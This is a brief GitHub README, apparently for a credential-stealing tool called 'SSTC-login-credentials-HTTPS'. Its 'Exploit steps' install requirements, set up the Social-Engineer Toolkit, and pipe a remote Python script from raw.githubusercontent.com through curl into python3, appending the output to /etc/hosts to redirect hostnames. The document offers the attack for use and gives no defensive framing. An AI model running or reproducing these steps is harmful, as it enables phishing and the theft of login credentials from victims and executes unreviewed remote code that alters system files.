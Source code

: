 # SSTC-login-credentials-HTTPS stealing credentials
- by nu11secur1ty

![](https://github.com/nu11secur1ty/SSTC-HTTPS-login-credentials/blob/master/logo/http.png)

# Exploit steps:
1. - 
`pip install -r requirements.txt`

2. -
For other Linux distro
```
$ git clone https://github.com/trustedsec/social-engineer-toolkit/ set/
$ cd set
$ pip install -r requirements.txt
```
-- For kali 
```bash 
setoolkit
```

3. -
```bash
curl -s https://raw.githubusercontent.com/nu11secur1ty/SSTC-HTTPS-login-credentials/master/hosts/modules/pyexploitcreate/pyexploitcreateIP_host_fake.py | python3 >> /etc/hosts
```
